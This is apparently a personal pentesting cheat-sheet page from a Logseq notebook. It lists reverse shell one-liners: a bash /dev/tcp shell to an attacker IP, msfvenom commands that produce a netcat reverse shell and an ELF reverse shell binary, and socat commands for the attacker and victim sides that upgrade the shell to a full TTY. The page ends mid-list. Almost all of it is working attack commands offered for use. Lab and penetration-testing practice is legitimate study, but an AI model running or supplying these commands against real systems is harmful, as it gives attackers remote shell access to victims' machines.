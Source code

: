 ### One-liner reverse shell
For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
		- On Kali (Attacker)
		  
		  ```bash
		  socat file:`tty`,raw,echo=0 tcp-listen:4444
		  ```
		- On the victim machine
		  
		  ```bash
		  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
		  ```
	- With `pythom` + `socat`